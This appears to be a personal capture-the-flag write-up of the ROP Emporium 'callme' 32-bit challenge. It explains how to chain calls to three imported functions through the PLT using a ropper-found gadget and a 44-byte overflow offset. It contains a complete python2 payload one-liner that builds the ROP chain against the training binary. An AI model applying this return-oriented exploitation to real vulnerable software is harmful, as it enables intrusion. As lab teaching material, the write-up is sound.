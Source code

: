 Links [[00 - Global Index (Start Here!)]] [[ROP Emporium]]

# Contents
***
- Task Description
- 32 bit

## Task Description

Reliably make consecutive calls to imported functions.  
Use some new techniques and learn about the Procedure Linkage Table.

## 32 bit

Reading the site we need to call three functions while passing in the same three arguments.

args:  `0xdeadbeef`, `0xcafebabe`, `0xd00df00d`
functions: callme_one(), callme_two(), callme_three()

Getting the memory locations of the three functions:
callme_one():     `0xf7fc0d3d`
callme_two():     `0xf7fc0755`
callme_three():   `0xf7fc0855`

We also need a a way to remove the arguments off the stack after before we add the next function or they wont populate correctly.
You can find this gadget by running ropper:
```bash
ropper -f callme32 --search pop

0x080487f9: pop esi; pop edi; pop ebp; ret; 
```
Using this memory location the exploit chain will look like this:

Offset
callme1
gadget
arg1
arg2
arg3
callme2
gadget
arg1
arg2
arg3
callme3
gadget
arg1
arg2
arg3

Next is to find the buffer size.
44

encode everything in little endian and send it to a payload.
```bash
python2 -c 'print "A"*44 + "\xf0\x84\x04\x08" + "\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0"+"\x50\x85\x04\x08"+"\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0" +"\xe0\x84\x04\x08" +"\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0"' > callme-32-payload
```

Which gives the flag :)
```flag
ROPE{a_placeholder_32byte_flag!}
```


---
Creation date: 13-10-2022

Last modified date: Thursday 13th October 2022
***
